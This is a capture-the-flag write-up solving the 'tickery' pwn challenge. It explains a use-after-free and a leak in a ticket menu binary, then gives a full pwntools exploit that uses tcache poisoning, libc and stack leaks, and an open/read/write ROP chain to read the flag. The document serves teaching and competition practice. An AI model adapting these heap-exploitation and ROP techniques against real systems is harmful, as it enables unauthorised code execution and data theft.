

## tickery

```
Author: yqroo

is this pwn chall?

nc ctf.tcp1p.com 49999
```
**Attachment**: [main](release/main), [libc.so.6](release/libc.so.6)

We were given an ELF binary and a LIBC file. Here's some information about the binary.
  

Because I couldn't execute the provided libc, I decided to extract a few addresses from it and then used the [libc.rip](https://libc.rip) website to determine the libc version that was in use.


  

Copy the last 3 nibbles of each address and it symbols names into the website.

  

Based on the image above, it is known that the libc provided in the challenge is version 2.37. Since you didn't have an interpreter for that libc version, you created a Docker image based on Ubuntu version 23.04.

<details open><summary>Dockerfile</summary>

```docker
from ubuntu:23.04
```
</details>

```bash
docker build -t ubuntu_2304 .
docker run --name ubuntu_2304 ubuntu_2304
docker cp ubuntu_2304:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
```

After that, I patched the binary I was working with using patchelf. The purpose of this was to ensure that when the binary is executed, it uses the provided libc.

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 main
patchelf --set-interpreter ./ld-linux-x86-64.so.2 main
patchelf --set-rpath . main
```

Now, let's focus on the binary. Below is the decompiled code of the provided binary.

<details close><summary>Decompiled Binary</summary>
    
```c
int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 seccomp_rules()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 60LL, 0LL);
  return seccomp_load(v1);
}

int menu()
{
  puts("1. Order");
  puts("2. Verify");
  return puts("3. Refund");
}

__int64 __fastcall ticketid(const char *a1)
{
  __int64 v2[2]; // [rsp+10h] [rbp-10h] BYREF

  v2[1] = __readfsqword(0x28u);
  printf("%s", a1);
  __isoc99_scanf("%lu%*c", v2);
  if ( v2[0] > 0xFuLL )
    _exit(-1);
  return v2[0];
}

__int64 __fastcall sub_14010(const char *a1)
{
  size_t i; // rax
  __int64 v3; // [rsp+10h] [rbp-10h]
  size_t v4; // [rsp+18h] [rbp-8h]

  v3 = 0LL;
  v4 = 0LL;
  for ( i = strlen(a1); v4 < i; i = strlen(a1) )
    v3 = (v3 << 8) + (unsigned __int8)a1[v4++];
  return v3;
}

ssize_t __fastcall order(__int64 a1)
{
  *((_QWORD *)&TICKET + a1) = malloc(0x20uLL);
  printf("Name : ");
  return read(0, *((void **)&TICKET + a1), 0x20uLL);
}

unsigned __int64 __fastcall verify(__int64 a1)
{
  void *v1; // rsp
  __int64 v3; // [rsp+8h] [rbp-40h] BYREF
  __int64 idx; // [rsp+10h] [rbp-38h]
  __int64 v5; // [rsp+20h] [rbp-28h]
  void *buf; // [rsp+28h] [rbp-20h]
  unsigned __int64 v7; // [rsp+30h] [rbp-18h]

  idx = a1;
  v7 = __readfsqword(0x28u);
  v5 = 31LL;
  v1 = alloca(32LL);
  buf = &v3;
  if ( *((_QWORD *)&TICKET + a1) )
  {
    puts("Please Confirm !");
    printf("Your seat %lu\n", idx);
    printf("please say your name for confirmation : ");
    read(0, buf, 0x20uLL);
    sub_1450(buf);
    if ( !strcmp(*((const char **)&TICKET + idx), (const char *)buf) )
    {
      puts("This ticket has been verified, for your own safety please change the ticket name");
      printf("New name : ");
      read(0, *((void **)&TICKET + idx), 0x20uLL);
    }
    else
    {
      printf("Sorry sir this ticket belongs to %s", *((const char **)&TICKET + idx));
      *((_QWORD *)&TICKET + idx) = 0LL;
    }
  }
  else
  {
    puts("This seat is available, you are free to order this one");
  }
  return v7 - __readfsqword(0x28u);
}

int __fastcall refund(__int64 a1)
{
  if ( !*((_QWORD *)&TICKET + a1) )
    return puts("This seat is available, you are free to order this one");
  free(*((void **)&TICKET + a1));
  return puts("ok");
}

int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  int v4; // [rsp+1Ch] [rbp-14h] BYREF
  const char *v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();
  seccomp_rules(argc);
  v3 = "ticket??";
  puts("ticket??");
  while ( 1 )
  {
    while ( 1 )
    {
      menu(v3);
      printf("> ");
      __isoc99_scanf("%d%*c", &v4);
      if ( v4 != 3 )
        break;
      v5 = (const char *)ticketid(prompt);
      v3 = v5;
      refund(v5);
    }
    if ( v4 > 3 )
      break;
    if ( v4 == 1 )
    {
      v5 = (const char *)ticketid(prompt);
      v3 = v5;
      order(v5);
    }
    else
    {
      if ( v4 != 2 )
        break;
      v5 = (const char *)ticketid(prompt);
      v3 = v5;
      verify(v5);
    }
  }
  puts("nono\n");
  _exit(0);
}
```
    
</details>

Okay, so, the provided binary is a menu-based program, featuring at least three menus:
- Menu 1 - Order: The user is prompted to input an index, which is used as a pointer to an element in the global variable `TICKET`. Then, the program allocates memory by calling malloc(0x20) (Allocated size: 0x30) and the heap pointer will be stored into global variable `TICKET`. Then the program will asks the user to input data (up to 32 bytes).

- Menu 2 - Verify: The user is prompted to input the index of the data they want to verify. The program checks whether the index entered by the user contain a value or not. If it does, the program requests the user to input data for verification. If the verification process is successful, the program allows the user to modify the data at the pointer stored in the global variable `TICKET[idx]`. However, if verification fails, the program displays the data pointed to by the value from `TICKET[idx]`. The behavior when the user fails to verify caused a data leak, and it can be used to leak data like heap address, libc address, etc. The verification involves an encryption method in the `sub_1450()` function, which involves XOR with data from `rand()` and Gray code. Because the random seed is not set (no `srand()` call), the results of `rand()` will always reset each time the program is executed.


- Menu 3 - Refund : The user is prompted to input the index of the data they want to refund. The program will call the `free()` function with `TICKET[a1]` as it argument. Because the program doesn't nullify the pointer after perform `free` it will caused a Use After Free (UAF) vulnerability.

I created several functions to help me solve this challenge.

<details close><summary>Helper Function</summary>

```python
def get_rand():
    global rand_list
    return rand_list.pop(0)

def verif_name(p):
    strlen = lambda x : len(p.split(b"\x00")[0])
    length_p = strlen(p)
    p = p[:length_p][::-1]
    
    tmp_rand_list = [get_rand() for _ in range(length_p)]
    current_rand = get_rand()
    modulo_rand = current_rand % length_p

    p_val = s2n(p)
    for _ in range(modulo_rand):
        p_val = rev_grey_code(p_val)
    tmp_data = n2s(p_val)
    p = b"".join([p8((tmp_rand_list[i]&0xFF)^tmp_data[i]) for i in range(len(tmp_rand_list))])
    return p

def add(idx, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", str(idx).encode())
    io.sendafter(b": ", data)
    print("ADDED", idx)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", str(idx).encode())
    print("DELETED", idx)

def edit(idx, name=b"A\x00", data=b"\x00", write_data=True):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b": ", str(idx).encode())

    print("EDIT/VIEW", idx)
    if write_data is not True:
        name = verif_name(b"Vaints\x00")  # static wrong name
        io.sendafter(b": ", name) 
        io.recvuntil(b"this ticket belongs to ")
        resp = io.recvuntil(b"1. ", drop=True)
        return resp
    else:
        name = verif_name(name) 
        io.sendafter(b": ", name)
        io.sendafter(b": ", data)


def obf(pos, ptr):
    return (pos >> 12) ^ ptr
```
</details>
<br>

My idea was:
- Leak heap address by failing the verification in the "verify" menu and exploiting Use-After-Free (UAF).

```python
add(0, b"AAAA\x00")
add(1, b"BBBB\x00")
add(2, b"CCCC\x00")
add(3, FLAG_LOCATION) # also used for preventing chunk consolidate with top chunk

delete(0)
# tcachebins [0x30]: CHUNK_0 (CHUNK_0 will contain : CHUNK_0 address >> 12)

resp = edit(0, write_data=False)
print(resp)
LEAKED_HEAP = u64(resp.ljust(8, b"\x00")) << 12
HEAP_BASE = LEAKED_HEAP - 0x1000
print("LEAKED_HEAP              :", hex(LEAKED_HEAP))
print("HEAP_BASE                :", hex(HEAP_BASE))
CHUNK = []
for i in range(4): # 0 - 3
    CHUNK.append(LEAKED_HEAP + 0xe30 + (0x30*i))

print("CHUNK[0]                 :", hex(CHUNK[0]))
print("CHUNK[1]                 :", hex(CHUNK[1]))
print("CHUNK[2]                 :", hex(CHUNK[2]))
print("CHUNK[3]                 :", hex(CHUNK[3]))
```
<br>

- Set `counts` in tcache_perthread_struct for tcachebins[0x90] to 7, so when a 0x90-sized chunk is freed, it will be placed in the unsorted bin.

```python
add(0, b"AAAA")

delete(0)
edit(0, p64(obf(LEAKED_HEAP, 0)), p64(0)+p64(0xdeadbeef))
delete(0)

edit(0, p64(obf(CHUNK[0], CHUNK[0])), p64(obf(CHUNK[0], HEAP_BASE+0x10)))
add(0, p64(obf(CHUNK[0], HEAP_BASE+0x10)))
p = b""
p += p16(0) # 0x20
p += p16(1) # 0x30
p += p16(0) # 0x40
p += p16(0) # 0x50
p += p16(0) # 0x60
p += p16(0) # 0x70
p += p16(0) # 0x80
p += p16(7) # 0x90 (fill counts a.k.a tcachebins counter for 0x90 bins )

add(4, p)
```
<br>

- Modify the size of heap chunk_0 to 0x91 (3 Consolidated HEAPCHUNK sized 0x30 + PREV_INUSE flags).

```python
delete(1)
edit(1, p8(0x06), p64(obf(CHUNK[1], CHUNK[0]-0x10)))
add(1, p64(obf(CHUNK[1], CHUNK[0]-0x10)))
add(5, p64(0)+p64(0x30*3 + 1))

delete(0) # unsorted bin

resp = edit(0, write_data=False)
LEAKED_LIBC = u64(resp.ljust(8, b"\x00"))
libc.address = LEAKED_LIBC - 0x1f6ce0
print("LEAKED_LIBC                  :", hex(LEAKED_LIBC))
print("libc.address                 :", hex(libc.address))
print(f"{hex(libc.symbols['environ'])=}")

# used up unsorted bins 
add(0, b"AAAA\x00")
add(1, b"BBBB\x00")
add(2, b"CCCC\x00")
```
<br>

- Allocate memory at the address just before &environ (in libc) to obtain the stack address by failing the verification in the "verify" menu.

```python
delete(0)
delete(1)

# overwrite the bk pointer 
edit(1, p64(obf(CHUNK[1], CHUNK[0])), p64(0)+p64(0xdeadbeef))

# double free
delete(1) 
edit(1, p64(obf(CHUNK[1], CHUNK[1])), p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))
add(1, p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))

# leak stack address
add(6, b"B"*(0x10-1)+b"|")
resp = edit(6, write_data=False)
LEAKED_STACK = u64(resp.split(b"|")[1][:6].ljust(8, b"\x00"))
STACK_SAVED_RIP_ORDER = LEAKED_STACK - 0x160
print("LEAKED_STACK             :", hex(LEAKED_STACK))
print("STACK_SAVED_RIP_ORDER    :", hex(STACK_SAVED_RIP_ORDER))
```
<br>

- Allocate memory at the address just before the saved RIP of the order() function (menu 1) and overwrite it with a ROP chain calling the gets() function (since we can only write up to 32 bytes).

```python
delete(1)
delete(2)

edit(2, p64(obf(CHUNK[2],CHUNK[1])), p64(obf(CHUNK[2], STACK_SAVED_RIP_ORDER&~0xF)))
add(1, b"DUMMY")
p = b""
p += p64(STACK_SAVED_RIP_ORDER-0x20)
p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(STACK_SAVED_RIP_ORDER-0x20)
p += p64(libc.symbols["gets"])

add(7, p)
```
<br>

- Perform a Buffer Overflow and execute a ROP chain to open, read, and write.

```python
p = b""
p += p64(libc.search(asm("pop rdi; ret;")).__next__() + 1) * 8 # ret sled
p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(CHUNK[3]) # FLAG_LOCATION
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(0)
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(2)
p += p64(libc.address + 0x8bee6) # syscall ; ret

p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(open_fd)
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(CHUNK[3])
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0x200)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(0)
p += p64(libc.address + 0x8bee6) # syscall ; ret

p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(1)
p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
p += p64(CHUNK[3])
p += p64(0)
p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
p += p64(0x200)
p += p64(0)
p += p64(libc.search(asm("pop rax; ret;")).__next__())
p += p64(1)
p += p64(libc.address + 0x8bee6) # syscall ; ret

io.sendline(p)
```

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
from ctypes import CDLL
from libnum import n2s, rev_grey_code, s2n

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/main"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 49999
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def get_rand():
    global rand_list
    return rand_list.pop(0)

def verif_name(p):
    strlen = lambda x : len(p.split(b"\x00")[0])
    length_p = strlen(p)
    p = p[:length_p][::-1]
    
    tmp_rand_list = [get_rand() for _ in range(length_p)]
    current_rand = get_rand()
    modulo_rand = current_rand % length_p

    p_val = s2n(p)
    for _ in range(modulo_rand):
        p_val = rev_grey_code(p_val)
    tmp_data = n2s(p_val)
    p = b"".join([p8((tmp_rand_list[i]&0xFF)^tmp_data[i]) for i in range(len(tmp_rand_list))])
    return p

def add(idx, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", str(idx).encode())
    io.sendafter(b": ", data)
    print("ADDED", idx)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", str(idx).encode())
    print("DELETED", idx)

def edit(idx, name=b"A\x00", data=b"\x00", write_data=True):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b": ", str(idx).encode())

    print("EDIT/VIEW", idx)
    if write_data is not True:
        name = verif_name(b"Vaints\x00")  # static wrong name
        io.sendafter(b": ", name) 
        io.recvuntil(b"this ticket belongs to ")
        resp = io.recvuntil(b"1. ", drop=True)
        return resp
    else:
        name = verif_name(name) 
        io.sendafter(b": ", name)
        io.sendafter(b": ", data)


def obf(pos, ptr):
    return (pos >> 12) ^ ptr

def exploit(io, libc=null, cdll=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][2]
            cmd = choosen_gdb + """
            # b *verify+0x158
            # b *$rebase(0x161f)
            # b *$rebase(0x165c)
            # b *$rebase(0x1665)
            # b *verify+0x17e

            # b *$_base()+0x1845
            # b *$_base()+0x181f
            # b *$rebase(0x1661)
            b *order+0x7c
            disable breakpoints 1
            c
            """
            gdb.attach(io, gdbscript=cmd)


    FLAG_LOCATION = b"/proc/self/cwd/flag.txt\x00" # given by the probset
    # used for ORW ROP later
    if LOCAL:
        open_fd = 3 
    elif REMOTE:
        open_fd = 5

    add(0, b"AAAA\x00")
    add(1, b"BBBB\x00")
    add(2, b"CCCC\x00")
    add(3, FLAG_LOCATION) # also used for preventing chunk consolidate with top chunk

    delete(0)
    # tcachebins [0x30]: CHUNK_0 (CHUNK_0 will contain : CHUNK_0 address >> 12)

    resp = edit(0, write_data=False)
    print(resp)
    LEAKED_HEAP = u64(resp.ljust(8, b"\x00")) << 12
    HEAP_BASE = LEAKED_HEAP - 0x1000
    print("LEAKED_HEAP              :", hex(LEAKED_HEAP))
    print("HEAP_BASE                :", hex(HEAP_BASE))
    CHUNK = []
    for i in range(4): # 0 - 3
        CHUNK.append(LEAKED_HEAP + 0xe30 + (0x30*i))

    print("CHUNK[0]                 :", hex(CHUNK[0]))
    print("CHUNK[1]                 :", hex(CHUNK[1]))
    print("CHUNK[2]                 :", hex(CHUNK[2]))
    print("CHUNK[3]                 :", hex(CHUNK[3]))

    add(0, b"AAAA")

    delete(0)
    edit(0, p64(obf(LEAKED_HEAP, 0)), p64(0)+p64(0xdeadbeef))
    delete(0)

    edit(0, p64(obf(CHUNK[0], CHUNK[0])), p64(obf(CHUNK[0], HEAP_BASE+0x10)))
    add(0, p64(obf(CHUNK[0], HEAP_BASE+0x10)))
    p = b""
    p += p16(0) # 0x20
    p += p16(1) # 0x30
    p += p16(0) # 0x40
    p += p16(0) # 0x50
    p += p16(0) # 0x60
    p += p16(0) # 0x70
    p += p16(0) # 0x80
    p += p16(7) # 0x90 (fill counts a.k.a tcachebins counter for 0x90 bins )

    add(4, p)

    delete(1)
    edit(1, p8(0x06), p64(obf(CHUNK[1], CHUNK[0]-0x10)))
    add(1, p64(obf(CHUNK[1], CHUNK[0]-0x10)))
    add(5, p64(0)+p64(0x30*3 + 1))

    delete(0) # unsorted bin

    resp = edit(0, write_data=False)
    LEAKED_LIBC = u64(resp.ljust(8, b"\x00"))
    libc.address = LEAKED_LIBC - 0x1f6ce0
    print("LEAKED_LIBC                  :", hex(LEAKED_LIBC))
    print("libc.address                 :", hex(libc.address))
    print(f"{hex(libc.symbols['environ'])=}")

    # used up unsorted bins 
    add(0, b"AAAA\x00")
    add(1, b"BBBB\x00")
    add(2, b"CCCC\x00")

    delete(0) # delete 0, to give an
    delete(1)
    
    # overwrite the bk pointer 
    edit(1, p64(obf(CHUNK[1], CHUNK[0])), p64(0)+p64(0xdeadbeef))
    
    # double free
    delete(1) 
    edit(1, p64(obf(CHUNK[1], CHUNK[1])), p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))
    add(1, p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))

    add(6, b"B"*(0x10-1)+b"|")
    resp = edit(6, write_data=False)
    LEAKED_STACK = u64(resp.split(b"|")[1][:6].ljust(8, b"\x00"))
    STACK_SAVED_RIP_ORDER = LEAKED_STACK - 0x160
    print("LEAKED_STACK             :", hex(LEAKED_STACK))
    print("STACK_SAVED_RIP_ORDER    :", hex(STACK_SAVED_RIP_ORDER))


    delete(1)
    delete(2)
    
    edit(2, p64(obf(CHUNK[2],CHUNK[1])), p64(obf(CHUNK[2], STACK_SAVED_RIP_ORDER&~0xF)))
    add(1, b"DUMMY")
    p = b""
    p += p64(STACK_SAVED_RIP_ORDER-0x20)
    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(STACK_SAVED_RIP_ORDER-0x20)
    p += p64(libc.symbols["gets"])
    
    add(7, p)

    p = b""
    p += p64(libc.search(asm("pop rdi; ret;")).__next__() + 1) * 8 # ret sled
    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(CHUNK[3]) # FLAG_LOCATION
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(0)
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(2)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(open_fd)
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(CHUNK[3])
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0x200)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(0)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(1)
    p += p64(libc.search(asm("pop rsi ; pop r15 ; ret")).__next__())
    p += p64(CHUNK[3])
    p += p64(0)
    p += p64(libc.search(asm("pop rdx ; pop rbx ; ret")).__next__())
    p += p64(0x200)
    p += p64(0)
    p += p64(libc.search(asm("pop rax; ret;")).__next__())
    p += p64(1)
    p += p64(libc.address + 0x8bee6) # syscall ; ret

    io.sendline(p)


    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("./libc.so.6")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
        # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc = ELF("./libc.so.6") # patched
    cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    rand_list = [cdll.rand() for _ in range(1000)]
    exploit(io, libc, cdll)
``` 
</details>

  

Special thanks to swusjask, lunashci and Zafirr for their asisst. orz

**Flag:** TCP1P{If_I_die_tomorrow_I'd_be_all_right_Because_I_believe_That_after_we're_gone_The_SPIRIT_carries_LIBC_0n_and_1-Just_want_to_s33_this_challenge_solved_by_Many_people_sorry_f0R_qu1t3_long_fl4g}
